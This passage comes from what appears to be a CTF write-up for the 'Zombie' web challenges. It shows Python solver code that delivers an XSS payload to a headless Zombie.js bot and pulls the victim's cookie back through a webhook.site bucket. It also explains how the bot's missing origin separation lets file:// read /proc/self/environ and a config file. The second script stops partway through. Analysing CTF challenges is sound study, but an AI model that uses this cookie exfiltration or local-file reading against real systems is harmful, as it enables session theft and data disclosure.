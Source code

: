 ```python
"""

target_url = visit_base + urllib.parse.quote_plus(show_base + urllib.parse.quote_plus(payload))
print("sending", target_url)
r = requests.get(target_url)
print(r.text)

# fetch result
r = requests.get(f"https://webhook.site/token/{bucket_id}/requests?sorting=newest")
data = r.json()["data"][0]["query"]["cookie"]
print(re.search(r"(?<=flag=).*?(?=\")", data).group(0))
```

{% endraw %}

## Zombie 401

Zombie 401 changes things up a little. The flag is no longer part of the cookies and is just added to the config file but never used in the code.

{% raw %}

```json
{
  "flag": "find-the-secret-flag",
  "httpOnly": false,
  "allowDebug": true,
  "secret-flag": "wctf{redacted}"
}
```

{% endraw %}

This means we can only access it through techniques like LFI or RCE.
At this point the browser-implementation used by the bot gets interesting.

The bot uses [Zombie.js](https://www.npmjs.com/package/zombie) to view the provided webpage.
Zombie.js is a headless browser that is used for testing web applications. As such its focus is on being as fast as possible and not on security.
As such many of the expected [security measures are missing in Zombie.js](https://github.com/assaf/zombie/issues/1169).

One such shortcomming is that Zombie.js does not separate origins and thus allows us to read arbitrary files by using the file:// protocol.

Since everything is a file on Linux we can use this to first get more information on the process we're running in (by accessing `/proc/self/status` and `/proc/<pid>/environ`) and then use that to read the flag from the config file as shown below.

{% raw %}

```python
import requests
import os
import re
import urllib.parse
import json
import time

# setup bucket
token_path = ".webhook-site.token"
if os.path.exists(token_path):
    with open(token_path, "r") as f:
        bucket_id = f.read()
else:
    r = requests.post("https://webhook.site/token")
    bucket_id = r.json()["uuid"]
    with open(token_path, "w") as f:
```